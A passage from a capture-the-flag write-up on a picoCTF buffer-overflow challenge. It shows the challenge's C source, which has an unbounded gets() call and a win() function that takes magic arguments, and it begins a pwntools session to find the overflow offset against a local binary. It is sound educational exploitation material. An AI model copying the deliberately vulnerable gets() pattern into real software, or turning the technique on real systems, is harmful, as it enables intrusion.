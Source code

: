   fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
{% endcodeblock %}

Looking at the `win()` function, we can see that two arguments are required that need to be passed into the function to receive the flag. Two guard clauses lay above the flag print:

{% codeblock lang:c first_line:19 %}
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
{% endcodeblock %}

The goal is simple: call `win(0xCAFEF00D, 0xF00DF00D)`! We'll be doing it the hard way (for a learning experience), in addition to a more advanced easy way. Let's get started.

### I: The Hard Way 🐢

We can apply a lot from what we learned in `Buffer overflow 1`. The first thing we should do is find the offset, which requires no hassle with pwntools helpers! Although we'll get actual number here, I won't include it in the final script for the sake of not leaving out any steps. Simply segfault the process with a cyclic string, read the core dump's fault address (`$eip`) and throw it into `cyclic_find()`:

<figure class="highlight plaintext"> <table> <tr> <td class="code"><pre style="white-space: pre-wrap"><span class="meta prompt_">$ </span>python3 -q
<span class="meta prompt_">>>> </span>from pwn import *
<span class="meta prompt_">>>> </span>elf = context.binary = ELF(&apos;./vuln&apos;)
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#5EBDAB">NX enabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
<span class="meta prompt_">>>> </span>p = process(elf.path)
[<span style="color:#9755B3">x</span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 2777
<span class="meta prompt_">>>> </span>p.sendline(cyclic(128))
<span class="meta prompt_">>>> </span>p.wait()